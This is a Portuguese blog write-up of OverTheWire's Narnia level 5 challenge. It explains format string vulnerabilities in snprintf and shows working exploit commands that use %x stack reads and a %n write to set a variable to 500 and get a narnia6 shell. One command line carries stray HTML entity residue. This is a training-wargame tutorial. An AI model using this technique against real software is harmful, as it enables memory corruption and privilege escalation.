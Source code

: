 ```yaml
---
layout: post
title: Level 5 - Format String Attack [OverTheWire CTF – Narnia]
date: 2017-05-31 17:14
author: obrerodrigues
comments: true
categories: [CTFs]
tags: [Narnia OverTheWire]
---
```

<ul>
    <li style="text-align:justify;"><a href="https://brerodrigues.github.io/ctfs/level-0-overthewire-ctf-narnia-write-up">Level 0</a></li>
    <li style="text-align:justify;"><a href="https://brerodrigues.github.io/ctfs/level-1-overthewire-ctf-narnia-write-up">Level 1</a></li>
    <li style="text-align:justify;"><a href="https://brerodrigues.github.io/ctfs/level-2-overthewire-ctf-narnia-write-up">Level 2</a></li>
    <li style="text-align:justify;"><a href="https://brerodrigues.github.io/ctfs/level-3-overthewire-ctf-narnia-write-up">Level 3</a></li>
    <li style="text-align:justify;"><a href="https://brerodrigues.github.io/ctfs/level-4-overthewire-ctf-narnia-write-up">Level 4</a></li>
</ul>

Quem diria que é mais trabalhoso escrever writeup do que resolver os desafios? Mas continuo firme e forte na tentativa de documentar e ensinar um pouco que sei para os próximos 1337 afim de aprender.

Hora de ownar o <strong>narnia5</strong>.

<script src="https://gist.github.com/anonymous/f6fb1753c42a085a65b9cc1f21948bdf.js"></script>

O objetivo é claro, mudar o valor da variável <strong>i</strong> de 1 para 500. Hora de ver o código e criar teorias de como fazer isso.

<script src="https://gist.github.com/anonymous/d743b46c946ffe171ea2a2ca5aa04f6f.js"></script>

No inicio da função, <strong>i</strong> recebe o valor 1 e <strong>buffer</strong> é declarado como um vetor de char de tamanho 64. Depois, <a href="http://www.cplusplus.com/reference/cstdio/snprintf/">snprintf</a> manda para buffer 64 caracteres do argumento que passamos para o programa. É aqui que mora a vulnerabilidade que vai permitir mudar o valor de i.

snprintf recebe como argumentos: um ponteiro para o buffer onde será guardado o valor, o tamanho máximo de bytes que será copiado para o buffer e uma string (também podem haver argumentos opcionais). Se a função for chamada desta forma: <em>snprintf(buffer, 100, "Sou uma %s", "string")</em>, irá salvar em buffer o valor <em>"Sou uma string"</em> porque substitui o <em>%s</em> pelo argumento seguinte, a palavra <em>"string"</em>. É tipo o que <a href="http://www.cplusplus.com/reference/cstdio/printf/">printf</a> faria, mas ao invés de imprimir na tela, salva o resultado em algum lugar.

Assim como os outros da família printf, snprintf quando usada de forma relapsa abre espaço para ataques de <a href="https://www.owasp.org/index.php/Format_string_attack">format string</a>.

Uma<em> format string </em>é uma string ASCII que pode conter texto e parâmetros de formatação.

```printf(Sua senha do facebook é %s, x41Ax41A)```

A tal <em>format string</em> seriam os argumentos para a função printf aí de cima. Você pode ver que, ao executar esta linha, a função espera uma string como argumento para substituir o identificador %s.

Há outros identificadores como %d para inteiros, %c para caracteres, %x para hexademical, %p para ponteiros, %n que te digo a utilidade depois...

No chall, a função está sendo chamada passando como argumento de formatação o que digitarmos:

```snprintf(buffer, sizeof buffer, argv[1])```

Ao invés do correto, que seria:

```snprintf(buffer, sizeof buffer, %s, argv[1])```

No primeiro caso, temos controle da string de formatação. Isto significa que inserir como argumento um "%s" fará com que snprintf tente imprimir uma string. Mesmo que essa string não exista.

```
narnia5@narnia:/narnia$ ./narnia5 %s
Change i's value from 1 -500. No way...let me give you a hint!
buffer : [▒▒u^▒L9L$▒Av9▒D▒] (23)
i = 1 (0xffffd74c)
```

Consegue ver essa quantidade de lixo? Isso acontece porque, em uma chamada saudável para snprintf, por exemplo: <em>snprintf(buffer, 25, "%d %s", a, &amp;b)</em>  os dados ficariam organizados dessa forma:

```
(topo da stack)
Endereço_de_retorno -
endereço_de_b -
valor_de_a
...
(fundo da stack)
```

É na stack que snprintf espera que os valores ou endereço destes valores estejam. Assim, não importa se esses valores tenham ou não sido passados como argumento para a função, snprintf irá ler o que estiver na stack.

Há uma forma de ver esse mal comportamento na prática usando o chall. Ao passar argumentos suficientes, é possível ler o próprio argumento da stack.

```
narnia5@narnia:/narnia$ ./narnia5 AAAA.%x.%x.%x.%x.%x
Change i's value from 1 -500. No way...let me give you a hint!
buffer : [AAAA.f7eb7fe6.ffffffff.ffffd71e.f7e2ec34.41414141] (49)
i = 1 (0xffffd73c)
```

Usei %x para imprimir os valores em hex e você pode ver que o quinto %x foi substituído pelo valor <em><a href="https://pt.wikipedia.org/wiki/ASCII">41414141</a></em>.

Bom, ler conteúdo arbitrário da memória têm suas <a href="https://security.stackexchange.com/questions/43489/can-i-read-write-canary-values-from-gs-register/43844#43844">utilidades</a>. Mas o objetivo é ganhar uma shell. E para isso acontecer, não é preciso ler e sim sobrescrever i.

É aí que entra o especificador %n. Ao contrário de todos outros, sua utilidade não é formatar para apresentar um valor e sim escrever.

O %n escreve, na variável que for especificada, o número de bytes que foram escritos antes dele.

```printf(12345%n, &amp;variavel)```

A linha de código acima, além de imprimir "<em>12345</em>", irá escrever o inteiro 5 em <em>variavel</em>.

O programa é amigável e ainda nos informa em que lugar da memória está guardado o valor da variável i. Tudo que é preciso é: explorar a format string para escrever 500 bytes e escrever %n no endereço de i.

Agora saindo da teoria para a prática.

Lembra como, após alguns endereços, se consegue imprimir o próprio valor inserido? É dessa forma que passamos o endereço de i.

```
narnia5@melinda:/narnia$ ./narnia5 `python -c 'print \xdc\xd6\xff\xff%x%x%x%x%n &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp;'`
Change i's value from 1 -500. No way...let me give you a hint!
buffer : [▒▒▒▒f7eb7746ffffffffffffd6bef7e2fc34] (36)
i = 36 (0xffffd6dc)
```

Uow, viu isso? Vamos por partes:

No começo do argumento venenoso que mandei (usei o python para escrever no formato que se deve mas, se simplesmente não entendeu o que fiz, tente ler os <a href="https://brerodrigues.github.io/category/CTFs">write-ups anteriores do narnia</a> que é onde explico mais cuidadosamente esses paranauê) temos <em>ff ff d6 dc</em>, o endereço de i.

Após o endereço, usei uns %x para sair puxando uns valores da stack até chegar no início do meu próprio argumento, que será <em>ff ff d6 dc</em>. E é ai que entra o %n, que vai alegremente escrever a quantidade de bytes já escritos em <em>ff ff d6 dc</em>.

Por esse motivo que i teve seu valor substituído por 36. Não é por coincidência que o tamanho de buffer também seja 36.

Agora se pode passar um argumento com 500 bytes e ver /bin/sh ser executado com privilégios de narnia6.

```
narnia5@melinda:/narnia$ ./narnia5 `python -c 'print \xdc\xd6\xff\xff%-472s%x%x%x%n'`
Change i's value from 1 -500. GOOD
$ cat /etc/narnia_pass/narnia5
cat: /etc/narnia_pass/narnia5: Permission denied
$ whoami
narnia6
```

Nem precisa escrever na mão os 500. O <a href="https://stackoverflow.com/questions/276827/string-padding-in-c">%472s</a> faz o trabalho de preencher o buffer.

Esse desafio só arranha bem pouco a superfície que é o poder que se tem ao explorar uma falha em format strings. Ao contrário de stack overflows simples (sem nenhuma contramedida), que são raríssimos de se ver na prática hoje em dia, format strings ainda são exploradas atualmente. Mesmo que na maioria das vezes seja apenas como um "meio" para o exploit funcionar. O que quis dizer é que: se você for buscar conhecimento, vai encontrar altas maneiras extravagantes e quase mágicas de se usar uma falha desse tipo para vários fins. Cheque <a href="https://crypto.stanford.edu/cs155/papers/formatstring-1.2.pdf">este PDF </a>se ficou curioso.
